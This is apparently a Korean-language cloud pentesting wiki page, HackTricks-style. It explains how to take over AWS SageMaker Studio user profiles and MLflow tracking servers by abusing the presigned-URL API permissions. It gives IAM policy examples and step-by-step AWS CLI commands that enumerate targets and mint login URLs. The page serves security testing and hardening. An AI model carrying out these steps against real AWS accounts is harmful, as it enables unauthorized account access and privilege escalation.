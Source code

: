 # AWS - SageMaker 무단 접근

{{#include ../../../../banners/hacktricks-training.md}}

## SageMaker Studio - Account Takeover via CreatePresignedDomainUrl (Impersonate Any UserProfile)

### 설명
타겟 Studio `UserProfile`에 대해 `sagemaker:CreatePresignedDomainUrl`을 호출할 수 있는 권한을 가진 주체는 해당 프로필로 직접 인증되는 로그인 URL을 생성할 수 있습니다. 이는 공격자의 브라우저에 프로필의 `ExecutionRole` 권한을 상속받고 프로필의 EFS 기반 홈 및 앱에 대한 전체 접근 권한을 가진 Studio 세션을 제공합니다. `iam:PassRole`이나 콘솔 접근은 필요하지 않습니다.

### 요구사항
- SageMaker Studio `Domain` 및 그 안의 대상 `UserProfile`.
- 공격자 주체는 대상 `UserProfile`에 대해 `sagemaker:CreatePresignedDomainUrl`(리소스‑레벨) 또는 `*` 권한이 필요합니다.

최소 권한 정책 예시 (하나의 UserProfile로 범위 지정):
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "sagemaker:CreatePresignedDomainUrl",
"Resource": "arn:aws:sagemaker:<region>:<account-id>:user-profile/<domain-id>/<user-profile-name>"
}
]
}
```
### 악용 단계

1) 대상으로 삼을 수 있는 Studio Domain과 UserProfiles를 열거합니다
```bash
DOM=$(aws sagemaker list-domains --query 'Domains[0].DomainId' --output text)
aws sagemaker list-user-profiles --domain-id-equals $DOM
TARGET_USER=<UserProfileName>
```
2) presigned URL 생성 (기본적으로 약 5분 동안 유효)
```bash
aws sagemaker create-presigned-domain-url \
--domain-id $DOM \
--user-profile-name $TARGET_USER \
--query AuthorizedUrl --output text
```
3) 반환된 URL을 브라우저에서 열어 대상 사용자로 Studio에 로그인합니다. Studio 내부의 Jupyter 터미널에서 적용된 계정을 확인합니다:
```bash
aws sts get-caller-identity
```
Notes:
- `--landing-uri`는 생략할 수 있습니다. 일부 값(e.g., `app:JupyterLab:/lab`)은 Studio의 flavor/version에 따라 거부될 수 있으며; 기본값은 일반적으로 Studio 홈으로 리다이렉트한 후 Jupyter로 이동합니다.
- 조직 정책/VPC 엔드포인트 제한으로 인해 네트워크 접근이 여전히 차단될 수 있습니다; 토큰 발급은 콘솔 로그인이나 `iam:PassRole`을 필요로 하지 않습니다.

### Impact
- 허용된 ARN을 가진 어떤 Studio `UserProfile`라도 가정(assume)함으로써 해당 `ExecutionRole`과 파일시스템/앱을 상속받아 측면 이동(lateral movement) 및 권한 상승(privilege escalation)이 가능합니다.

### Evidence (from a controlled test)
- 대상 `UserProfile`에 `sagemaker:CreatePresignedDomainUrl`만 있을 때, 공격자 역할은 다음과 같은 `AuthorizedUrl`을 성공적으로 반환했습니다:
```
https://studio-d-xxxxxxxxxxxx.studio.<region>.sagemaker.aws/auth?token=eyJhbGciOi...
```
- 직접 HTTP 요청은 Studio로 리다이렉트(HTTP 302)로 응답하여 해당 URL이 만료될 때까지 유효하고 활성 상태임을 확인합니다.


## SageMaker MLflow Tracking Server - ATO via CreatePresignedMlflowTrackingServerUrl

### 설명
대상 SageMaker MLflow Tracking Server에 대해 `sagemaker:CreatePresignedMlflowTrackingServerUrl`를 호출할 수 있는 권한을 가진 주체는 해당 서버의 관리되는 MLflow UI에 직접 인증하는 단일 사용 presigned URL을 발급할 수 있습니다. 이는 콘솔 액세스나 `iam:PassRole` 없이도 합법적인 사용자가 서버에서 가지는 동일한 접근 권한(실험 및 런 보기/생성, 서버의 S3 artifact 저장소에서 아티팩트 다운로드/업로드)을 부여합니다.

### 요구 사항
- 계정/리전 내에 SageMaker MLflow Tracking Server와 해당 서버의 이름이 있어야 합니다.
- 공격자 principal은 대상 MLflow Tracking Server 리소스(또는 `*`)에 대해 `sagemaker:CreatePresignedMlflowTrackingServerUrl` 권한이 필요합니다.

최소 정책 예시(하나의 Tracking Server에만 범위 지정):
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "sagemaker:CreatePresignedMlflowTrackingServerUrl",
"Resource": "arn:aws:sagemaker:<region>:<account-id>:mlflow-tracking-server/<tracking-server-name>"
}
]
}
```
### 악용 단계

1) 대상으로 삼을 수 있는 MLflow Tracking Servers를 열거하고 하나의 이름을 선택하세요
```bash
aws sagemaker list-mlflow-tracking-servers \
--query 'TrackingServerSummaries[].{Name:TrackingServerName,Status:TrackingServerStatus}'
TS_NAME=<tracking-server-name>
```
2) 사전 서명된 MLflow UI URL 생성 (짧은 시간 동안 유효)
```bash
aws sagemaker create-presigned-mlflow-tracking-server-url \
--tracking-server-name "$TS_NAME" \
--expires-in-seconds 300 \
--session-expiration-duration-in-seconds 1800 \
--query AuthorizedUrl --output text
```
3) 반환된 URL을 브라우저에서 열어 해당 Tracking Server의 인증된 사용자로서 MLflow UI에 액세스합니다.

Notes:
- The Tracking Server must be in a ready state (e.g., `Created/Active`). If it is still `Creating`, the call will be rejected.
- The presigned URL is single‑use and short‑lived; generate a new one when needed.

### 영향
- 타깃 Tracking Server의 관리되는 MLflow UI에 직접 접근할 수 있습니다. 이를 통해 서버 구성으로 설정된 S3 artifact store에 저장된 아티팩트를 조회하거나 업로드하고, 실험/런을 조회·수정할 수 있으며, 이는 서버 구성에서 강제하는 권한 범위 내에서 가능합니다.

{{#include ../../../../banners/hacktricks-training.md}}
